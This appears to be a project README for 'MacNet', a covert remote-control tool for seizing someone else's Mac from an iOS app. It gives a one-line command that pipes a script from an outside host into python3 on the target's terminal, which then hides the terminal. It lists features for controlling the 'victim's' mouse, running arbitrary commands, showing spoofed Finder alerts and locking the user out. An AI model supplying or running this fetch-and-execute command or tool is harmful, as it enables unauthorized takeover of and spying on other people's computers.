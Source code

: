 # MacNet Control Panel 

MacNet is a piece of software that allows you to remotely control someone else's Mac computer using an iOS control panel. To gain control of their computer, all you have to do is type the simple command `curl https://macnetback-nylr.c9users.io/getc | python3` into their terminal. The program will automatically hide the terminal, and you will have full access.


![App Logo](https://i.imgur.com/8G4LV6b.png)


# Core Features

- The dark screen at the top of the page allows you to tap any location and control the position of the mouse on the victim's computer 
- The OpenURL form allows you to open any URL on the victim's default browser 
- The create Alert form allows you to send an alert to the victim's computer (it will display from "Finder") 
- The execute form allows you to execute any command in the user's terminal 
- The volume slider allows you to change the volume on the user's computer 
- The "Disable" button allows you prevent the user from controlling their computer 
- The "Sleep" button forces the victim's computer to sleep


![Interface](https://i.imgur.com/gdzOh6e.png)


